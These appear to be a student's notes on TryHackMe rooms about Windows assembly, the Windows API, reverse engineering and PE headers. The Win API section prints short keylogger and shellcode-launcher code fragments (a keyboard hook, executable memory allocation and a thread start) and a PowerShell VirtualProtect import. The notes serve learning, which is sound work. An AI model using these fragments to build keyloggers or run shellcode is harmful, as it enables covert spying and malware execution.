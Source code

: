 # Winassembly

**https://tryhackme.com/r/room/win64assembly**

A fairly rudimentary room. The first few modules are just simple learning of number systems, registers, and the like.

We're then introducted to more advanced concepts such as assembly instructions, compare flags, and calling conventions.

The last one I found most insightful, I finally understood what the `__fastcall` paramter meant in function definitions arising from Windows decompilation— its the Windows calling convention. A few more details of it are given below

- The first four non-floating-point parameters are passed left-to-right in registers `rcx`, `rdx`, `r8` and `r9` respectively.
- The first four floating-point parameters are passed in registers `xmm0` to `xmm3`.
- Any more than four parameters and they are pushed to the stack from right to left.
- A function's return value is passed to `rax` if it's a non-floating-point or `xmm0` if it's a float or double.

We also learn a bit about a different calling convention, `cdecl`.

The final module teaches us about the stack and the functioning of stack-frames on function calls.

# Win API

**https://tryhackme.com/r/room/windowsapi**

In this room we learn about the intricacies and working of the Windows API.

We start with a basic introduction to kernel modes and the components of the API.

After that, we dive deeper into the API and understand how ASLR is overcome through the Windows header file and P/Invoke.

Then we learn about the API calling structure and its function call naming scheme, which is as follows:

- **A:** Represents an 8-bit character set with ANSI encoding
- **W:** Represents a Unicode encoding
- **Ex:** Provides extended functionality or in/out parameters to the API call

After that we learn about the C/C++ implementation of the API and expand on the `<Windows.h>` header file's functionality through an example program for creating a pop-up window.

```c
HWND CreateWindowExA(
  [in]           DWORD     dwExStyle, // Optional windows styles
  [in, optional] LPCSTR    lpClassName, // Windows class
  [in, optional] LPCSTR    lpWindowName, // Windows text
  [in]           DWORD     dwStyle, // Windows style
  [in]           int       X, // X position
  [in]           int       Y, // Y position
  [in]           int       nWidth, // Width size
  [in]           int       nHeight, // Height size
  [in, optional] HWND      hWndParent, // Parent windows
  [in, optional] HMENU     hMenu, // Menu
  [in, optional] HINSTANCE hInstance, // Instance handle
  [in, optional] LPVOID    lpParam // Additional application data
);
```

implementation:

```c
#include <Windows.h>

HWND hwnd = CreateWindowsEx(
    0,
    CLASS_NAME,
    L"Hello THM!",
    WS_OVERLAPPEDWINDOW,
    CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT,
    NULL,
    NULL,
    hInstance,
    NULL
);
```

After, we learn about the API's implementation in .NET and PowerShell. Since there's no `Windows.h`, we use `DLLImport` instead with the exact API call we're looking for.

The PowerShell implementation is nearly identical except it uses methods instead of classes. We also need to create a type for each DLL pointer we import, which is then compiled using the C# compiler.

We use an example program here that prints the details of the user's PC.

**.NET:**

```java
class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetComputerNameA(StringBuilder lpBuffer, ref uint lpnSize);
}

static void Main(string[] args) {
    bool success;
    StringBuilder name = new StringBuilder(260);
    uint size = 260;
    success = GetComputerNameA(name, ref size);
    Console.WriteLine(name.ToString());
}
```

**PowerShell:**

```powershell
$MethodDefinition = @"
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
```

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

```powershell
[Win32.Kernel32]::<Imported Call>()
```

We now learn about the security features and vulnerabilities behind certain API calls, and how they can be abused. This concludes with a case study on two malwares, a keylogger and a shellcode launcher.

**keylogger:**

```java
public static void Main() {
    _hookID = SetHook(_proc);
    Application.Run();
    UnhookWindowsHookEx(_hookID);
    Application.Exit();
}
private static IntPtr SetHook(LowLevelKeyboardProc proc) {
    using (Process curProcess = Process.GetCurrentProcess()) {
        return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
    }
}
```

**Shellcode:**

```java
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

# Windows Reversing Intro

**https://tryhackme.com/r/room/windowsreversingintro**

This was another basic room that taught the usage of the  IDA decompiler and some basic Windows Reverse Engineering knowledge.

We're first told about function prologues and epilogues, and how a stack frame is created on top of older function stack frames. Then, we move to IDA, where we're taught about function inlining, i.e. the process of removing a function call and putting the contents of it in the calling function directly.

Then, we learn about structures and classes in assembly, and how their contents are stored.

Finally, we learn about DLLs, how they operate, and how they are used in recovering function names in decompilers. We also learn about function name mangling, how you run a DLL for test purposes, and how to analyze files which cannot not be traditionally \`executed\` like DLLs.

# Windows PE Headers

**https://tryhackme.com/r/room/dissectingpeheaders**

In this we learn the structure of a Windows executable and the headers attached to it.

First there's the *IMAGE_DOS_HEADER*, containing the first 64 bytes of the PE. It begins with the bytes `MZ` (`0x5a4d` in hex) and ends with the address from where the *IMAGE_NT_HEADER* starts.

Then, the *DOS_STUB* contains the message "!This program cannot be run in DOS mode"

The *IMAGE_NT_HEADER* contains all the important information about the PE. Its split into three parts:

- **Signature:** The bytes `50 45 00 00` or `PE`, indicating the beginning of the header.

- **FILE_HEADER:** The source of all the important information, as follows
    1. *Machine*
    2. *NumberOfSections*
    3. *TimeDateStamp*
    4. *PointerToSymbolTable*
    5. *NumberOfSymbols*
    6. *SizeOfOptionalHeader*
    7. *Characteristics*

- **OPTIONAL_HEADER:** It contains more crucial metadata, such as
    1. **Magic:** Whether its a 32-bit or 64-bit application.
    2. **AddressOfEntryPoint:** This is the address from where Windows begins execution.
    3. **ImageBase:** The likely loading address of the PE file in memory.
    4. **BaseOfCodeBaseOfData:** Addresses of the code and data sections, respectively, relative to ImageBase.
    5. **Subsystem:** The Subsystem required to run the image, such as Windows Native, GUI, CLI, etc.
    6. **DataDirectory:** Contains import and export information of the PE file

- **IMAGE_SECTION_HEADER:** This contains all the data, such as variables, classes and structs the application needs to run. Commonly found sections are
    1. **.text:** Contains the actual code for the PE.
    2. **.data:** Has the initialized data of the application.
    3. **.rdata/.idata:** Contain the import information of the PE file.
    4. **.ndata:** Contains uninitialized data.
    5. **.reloc:** Contains relocation information of the PE file.
    6. **.rsrc:** Has icons, images, or other graphical resources required for the application UI.

- **IMAGE_IMPORT_DESCRIPTOR:** Also stores the import information of a program and what API calls its making.

We then learn about executable packing and why a programmer might use them. A few indicators of them include empty section names, high entropy of sections, and lesser imports.
